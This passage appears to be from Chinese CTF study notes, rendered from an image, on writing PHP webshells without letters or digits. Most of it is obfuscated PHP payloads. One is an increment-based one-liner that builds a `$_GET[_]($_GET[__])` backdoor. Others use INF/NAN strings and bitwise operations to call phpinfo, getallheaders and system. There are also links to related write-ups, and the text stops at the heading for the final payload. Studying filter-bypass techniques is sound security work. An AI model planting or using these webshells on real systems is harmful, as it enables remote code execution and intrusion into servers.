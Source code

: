 ```php
<?=$_________.$__________.$_____.$______?>
<?=($________________)(${'_'.$_________.$__________.$_____.$______}[_])?>
```
还可以：
```php
<?php $_=[];$_=@"$_";$_=$_["!"=="@"];$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$____="_";$____.=$__;$____.=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$_[_]($_[__]);
```
构造的是`$_GET[_]($_GET[__])`木马

[De1CTF2020部分writeup ](https://www.anquanke.com/post/id/204345)

[无字母数字绕过正则表达式总结(含上传临时文件、异或、或、取反、自增脚本)](https://xz.aliyun.com/t/9387)
[php利用math函数rce总结](https://www.anquanke.com/post/id/220813)
[php 不用字母，数字和下划线写 shell](https://mp.weixin.qq.com/s/fCxs4hAVpa-sF4tdT_W8-w)
[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
[无字母数字webshell总结](https://xz.aliyun.com/t/8107)
#### 利用PHP的错误运算返回来构造字母
>1/0 返回 INF //0为除数
0/0 返回 NAN
((1/0).(0)){0}  / I
((0/0).(0)){1}  / A

然后利用位运算来构造其他字符，先尝试在已得到字符中进行`|(或)`运算或者`&`运算
```python
a = ['A','F','I','N']
for i in a:
    for j in a:
        print i,j,chr(ord(i)|ord(str(j)))
        print i,j,chr(ord(i)&ord(str(j)))
```
最后构造如下：
```php
(((((0/0).(0)){1}|((1).(0)){0})&(((1/0).(0)){2}|((0).(0)){0})).(((0/0).(0)){0}&((1/0).(0)){0}).((((0/0).(0)){1}|((1).(0)){0})&(((1/0).(0)){2}|((0).(0)){0})).(((1/0).(0)){0}).(((0/0).(0)){0}).(((1/0).(0)){2}).(((1/0).(0)){0}|((1/0).(0)){2}))()
//('phpinfo')()
((((0/0).(0)){1}|((1/0).(0)){2}).(((((0/0).(0)){1}|((1).(0)){0})|((4).(0)){0})&(((1/0).(0)){0}|((1/0).(0)){2})).(((((0/0).(0)){1}|((1).(0)){0})|((4).(0)){0})&(((1/0).(0)){2}|((0).(0)){0})).(((0/0).(0)){1}).((((0/0).(0)){0}&((1/0).(0)){0})|(((0/0).(0)){0}&((((0/0).(0)){1}|((1).(0)){0})|((4).(0)){0}))).((((0/0).(0)){0}&((1/0).(0)){0})|(((0/0).(0)){0}&((((0/0).(0)){1}|((1).(0)){0})|((4).(0)){0}))).(((0/0).(0)){0}&((1/0).(0)){0}).(((((0/0).(0)){1}|((1).(0)){0})|((4).(0)){0})&(((1/0).(0)){0}|((1/0).(0)){2})).(((0/0).(0)){1}).(((0/0).(0)){0}&((((0/0).(0)){1}|((1).(0)){0})|((4).(0)){0})).(((((0/0).(0)){1}|((1).(0)){0})|((4).(0)){0})&(((1/0).(0)){0}|((1/0).(0)){2})).((((0/0).(0)){1}|((2).(0)){0})&(((1/0).(0)){2}|((0).(0)){0})).(((0/0).(0)){1}|((2).(0)){0}))()
//('GEtALLHEADErs')()
((((0/0).(0)){1}|((2).(0)){0}).(((0/0).(0)){1}|((8).(0)){0}).(((0/0).(0)){1}|((2).(0)){0}).(((((0/0).(0)){1}|((1).(0)){0})|((4).(0)){0})&(((1/0).(0)){2}|((0).(0)){0})).(((((0/0).(0)){1}|((1).(0)){0})|((4).(0)){0})&(((1/0).(0)){0}|((1/0).(0)){2})).((((0/0).(0)){0}&((1/0).(0)){0})|(((((0/0).(0)){1}|((1).(0)){0})|((4).(0)){0})&(((1/0).(0)){0}|((1/0).(0)){2}))))()
// ('systEM')()
最终payload：
